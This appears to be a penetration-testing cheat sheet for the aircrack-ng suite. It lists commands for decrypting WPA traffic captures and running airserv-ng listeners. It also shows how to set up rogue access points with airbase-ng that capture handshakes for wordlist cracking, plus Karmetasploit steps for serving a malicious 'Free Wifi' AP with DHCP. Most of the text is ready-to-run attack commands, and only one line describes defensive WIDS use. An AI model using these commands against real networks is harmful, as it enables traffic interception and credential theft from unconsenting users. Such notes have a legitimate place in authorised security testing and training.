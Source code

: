 Decrypt pcap and create new file with traffic

```text
airdecap-ng
```

Use to decrypt pcap and view traffic:

```text
airdecap-ng -e <SSID> -p <WPA-password> <pcap file name>
```

Airserv-ng - Create a listener

```text
Server:
airmon-ng start wlan0 3
airserv-ng -p 1337 -c 3  -d mon0

Client:
airodump-ng -c -3 --bssid $AP 192.168.1.12:1337
```

Airtun-ng as a WIDS \(Could then pass this traffic to snort or another monitor to see traffic and alarm on it.\)

```text
airtun-ng -a $AP -w <password> mon0
```

## Airbase-ng

Set up in AP Mode for devices to connect to:

```text
airmon-ng start wlan0 3
airbase-ng -c 3 -e <SSID You want to Broadcast> mon0
```

Setup Airbase and crack password when people complete handshake with it:

```text
airodump-ng -c <AP Channel> -d $MON -w airbase mon0
airbase-ng -c 3 -e <SSID You want to Broadcast> -z 4 -W 1  mon0
aircrack-ng -w <password list> <pcap>
```

## Karmetasploit:

[https://www.offensive-security.com/metasploit-unleashed/karmetasploit/](https://www.offensive-security.com/metasploit-unleashed/karmetasploit/)

1. Install DHCP server: apt-get install dhcp3-server
2. Place interface in monitor mode: airmon-ng start wlan0 3
3. Serve up malicious AP: airbase-ng -c 3 -P -C 60 -e "Free Wifi" -v mon0
4. Set up Interface: ifconfig at0 up 10.0.0.1/24

Setup DHCP Server: mkdir -p /var/run/dhcpd chown -R dhcpd:dhcpd /var/run/dhcpd touch /var/lib/dhcp3/dhcpd.leases cat dhcpd.conf cat dhcpd.conf &gt; /tmp/dhcpd.conf touch /tmp/dhcp.log chown dhcpd:dhcpd /tmp/dhcp.log dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmpdhcp.log at0

